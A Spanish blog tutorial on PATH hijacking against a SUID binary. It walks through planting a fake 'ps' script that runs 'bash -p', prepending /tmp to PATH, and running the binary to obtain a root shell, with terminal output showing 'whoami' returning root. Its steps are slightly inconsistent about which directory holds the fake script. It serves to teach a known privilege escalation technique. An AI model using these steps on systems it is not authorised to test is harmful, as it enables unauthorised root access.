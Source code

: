 ```yaml
---
date: 2021-09-07T20:22:05.000Z
layout: post
comments: true
title: PATH Hijacking
subtitle: 'y su explotación en un binario SIUD'
description: >-
image: >-
  http://imgfz.com/i/xyCN3gM.png
optimized_image: >-
 http://imgfz.com/i/xyCN3gM.png
category: ciberseguridad
tags:
  - permisos
  - linux
  - GNU
  - ciberseguridad
  - hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```


Con el comando ```strings``` se nos permite listar las cadenas de carácteres imprimibles de un binario. ```strings demo``` nos podría mostrar el comando aplicado a nivel de sistema osea podría ser ```/usr/bin/ps```, detectado en ```demo.c```. Esto es PATH hijacking, que es el secuestro del PATH para alterar el flujo de como operan los comandos por el orden de prioridad. Ejemplo:

```
user$ touch ps
user$ chmod +x ps [Esto permitirá la ejecución]
user$ nano ps
```

Le asignamos que nos ejecute una bash, con la flag ```-p``` para que direccione directamente al propietario y me pueda convertir en root.
```
bash -p
```

Ahora alteramos nuestro propio PATH a través del comando ```export```:

```
user$ echo $PATH
/home/user/.local/bin:/snap/bin:/user/sandbox/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

user$ export PATH=/tmp:$PATH
user$ echo $PATH
/tmp:/home/user/.local/bin:/snap/bin:/user/sandbox/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

user$ ls
ps
user$ cd /home/user/Desktop/
user$ ls
demo  demo.c
user$ pwd
/home/user/Desktop/
user$ ./demo

[*] Listando procesos (/usr/bin/ps):

    PID TTY          TIME CMD
   29098 pts/0    00:00:01 sudo
   29099 pts/0    00:00:00 su
   29100 pts/0    00:00:00 gitstatusd-linu
   29103 pts/0    00:00:00 demo
   29137 pts/0    00:00:00 sh
   31299 pts/0    00:00:00 ps


[*] Listando procesos (ps):

admin@kali:/home/root/Desktop# whoami
root
```

Y así es como se obtiene acceso a través de PATH Hijacking.
